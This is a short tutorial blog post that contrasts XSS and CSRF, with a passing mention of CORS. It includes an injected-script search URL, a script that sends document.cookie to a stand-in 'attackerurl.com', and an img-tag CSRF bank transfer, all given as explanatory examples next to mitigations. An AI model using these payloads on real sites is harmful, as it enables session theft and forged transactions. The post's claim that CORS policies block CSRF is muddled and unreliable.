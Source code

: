 ```yaml
---
layout: post
category : 
tags : [learning, tutorial]
---
```

{% include JB/setup %}

Recently I was working on some identity managment projects. During the investigation, I reviewed some security knowledge and found myself didn't tell three basic concepts quite well. Sometimes, I felt hard to remeber the exact scenarios of them and would misuse one of them to describe the scenario which should be another one. The three terminologies are XSS (Cross-site scripting), CSRF (Cross-site request forgery), CORS (Cross-origin resource sharing).

## **XSS (Cross-site scripting)**
Two of the most common attacks against websites and web application are XSS and CSRF. 

```
In case of XSS, the victims's trust for a website is exploited, in case of CSRF, the website's trust for a victim's browser is exploited.
```

In case of XSS, attacker would make the victim to execute a piece of injected script. Since the script would be run under the website domain which is trusted by the victim, the attacker can utlize this script to collect some information, such as cookies, and then send these sensitive information to attacker's website. 

Imagine there was a website that provides a search box and it would generate a query url as following based on the content in it each time you click the search button.

```
https://example.com/search?query=<SearchContent>
```

It works well if the search content is just some normal key words. But what if the search content is a script like following? 

```
https://example.com/search?query=<script>alert(1)</script>
```

The script can be executed in the trusted website's domain. We just emit an alert in this script, a worse case could be an injected script to collect and send user cookies like following.

```
<script>
new Image().src="http://attackerurl.com/storecookie?cookie="+document.cookie;
</script>
```

To mitigate this issue, **HTTPOnly** cookie attribute can be used to prevent access to the cookie value through JavaScript.

How could the attacker inject his script to a trusted website? This [post][2] provides some practical scenarios of the XSS attack. 


## **CSRF (Cross-site request forgery)**
In case of CSRF, attacker would try to let browser send a request to an honest website on behalf of the victim. If the victim has already logged in the honest website, these kinds of requests may get some sensitive information of the victim. 

Imagine the victim has already logged in the honest website "www.bank.com", and there was a attcker's website "www.attacker.com" whose content is 

```
<img src="https://www.bank.com/action=transfer&receiver=attacker">
```

Since the victim has already logged in, this request might be send to "www.bank.com" with victim's credentials in the cookies. Then "www.bank.com" would recognize this request is sent on behalf of the victim although it is a cross-site request. [CSRF token][4] can be used to somehow mitigate the CSRF issue.

To mitigate this issue, we could use some CORS(Cross-origin resource sharing) polices which prevents the cross-site request.

## **Difference between XSS and CSRF**
As above mentioned, the method to distinguish XSS and CSRF is to figure out whose trust is exploited.    
For XSS, the attacker utilizes the user's trust on the website to collect some information, the battle field is the domain of the trusted website. The attacker's injected piece of javascript code can collect the user's information in cookies of the trusted website.   
For CSRF, the attacker utilizes the user's trust on the browser. The battle field is the domain of the attacker website. The attacker gets around of the [SOP][5] and sends requests to the trusted website domain with user's cookies. 

[1]: https://medium.com/@l4mp1/difference-between-xss-and-csrf-attacks-ff29e5abcd33
[2]: https://pentest-tools.com/blog/xss-attacks-practical-scenarios/
[3]: https://engineering.mixmax.com/blog/modern-csrf/
[4]: https://portswigger.net/web-security/csrf/tokens
[5]: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy